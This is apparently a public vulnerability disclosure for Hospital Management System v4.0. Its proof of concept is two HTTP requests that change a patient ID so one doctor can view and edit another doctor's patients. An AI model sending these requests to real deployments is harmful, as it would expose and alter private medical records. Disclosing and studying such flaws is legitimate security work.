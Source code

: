 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to look up and update the information of patient who is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
GET /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
```

```
POST /hospital/hms/doctor/edit-patient.php?editid=2(CHANGE HERE) HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```